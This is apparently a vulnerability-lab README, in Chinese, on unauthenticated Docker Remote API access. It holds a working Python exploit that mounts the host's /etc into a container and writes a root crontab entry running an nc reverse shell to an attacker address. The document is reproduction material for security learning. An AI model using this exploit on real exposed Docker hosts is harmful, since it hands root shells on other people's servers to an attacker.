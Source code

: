 # docker daemon api 未授权访问漏洞

参考链接：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## 漏洞环境

编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

利用方法是，我们随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

写入crontab文件，成功反弹shell：

![](1.png)

**PS.** 注意，这里的 payload 影响到的是宿主机的 `/etc/` 目录，执行反弹shell的动作也是来自于宿主机，则 payload 中所执行的命令会受到宿主机操作系统及环境的差异带来影响，例如： [Issue #66](https://github.com/vulhub/vulhub/issues/66) 中， 操作系统的中 nc 属于 OpenBSD 分支，`-e` 参数存在差异（[见文档](http://man.openbsd.org/nc)），所以 `/usr/bin/nc your-ip 21 -e /bin/sh` 这个payload是无法正常执行的，请自行修改。
